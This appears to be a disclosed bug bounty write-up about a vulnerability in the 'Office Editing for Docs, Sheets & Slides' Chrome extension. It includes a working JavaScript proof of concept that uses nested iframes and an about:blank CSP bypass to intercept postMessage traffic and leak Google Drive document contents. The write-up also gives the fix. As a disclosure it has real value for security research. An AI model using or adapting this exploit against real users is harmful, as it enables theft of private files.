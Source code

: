 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```js
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
  if (window.f) document.body.removeChild(f);
  f = document.createElement('iframe');
  f.width = 500;
  f.height = 500;
  f.src =
    'chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' +
    msofficeDocId +
    '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

  document.body.appendChild(f);

  let loop = setInterval(() => {
    // Wait for iframes to load
    if (f.contentWindow.length !== 2) return;
    clearInterval(loop);

    setTimeout(() => {
      f.contentWindow[0].location = 'about:blank';
      let loop2 = setInterval(() => {
        try {
          // Monitor for leaks via onmessage
          f.contentWindow[0].onmessage = (e) => {
            console.log('Data leaked :) ' + JSON.stringify(e.data));
          };
          clearInterval(loop2);
        } catch {}
      }, 0);
      // Wait a bit for the sandbox to request document content
    }, 600);
  }, 0);

  // Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.

